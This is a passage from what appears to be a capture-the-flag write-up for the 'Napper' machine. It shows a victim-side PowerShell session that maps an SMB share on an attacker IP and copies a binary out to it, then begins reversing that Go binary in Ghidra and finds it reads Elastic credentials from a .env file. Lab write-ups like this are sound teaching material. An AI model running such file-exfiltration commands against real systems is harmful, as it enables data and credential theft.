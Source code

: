 ### Victim

```powershell
PS C:\Temp\www\internal\content\posts\internal-laps-alpha> net use z: \\10.10.14.76\smbDir /user:test test123
The command completed successfully.

PS C:\Temp\www\internal\content\posts\internal-laps-alpha> copy a.exe z:\.

PS C:\Temp\www\internal\content\posts\internal-laps-alpha>
```

Trying to analyze it with ghidra we are said that its language is go when we import the binary:

![We discover it's a go binary](/assets/images/Napper/golang_ghidra.png)

The go language is so hard to decompile because its characteristics like is statically linked, it's size, etc. [Ghidra](https://github.com/NationalSecurityAgency/ghidra/releases) is a great reverse engineering tool that deals with all this but it takes a bit long to analyze so we have to wait. Install it from the web page because from apt is outdated and it doesn't has the same decompiling of go that has the newest version.

To analyze the functions, first start with Exports > main.main that is the equivalent to main function in C.

Looking at the code we can see that is using the ELASTICUSER, ELASTICPASS and ELASTICURI variables from .env file:

![Get env variables](/assets/images/Napper/getenv.png)
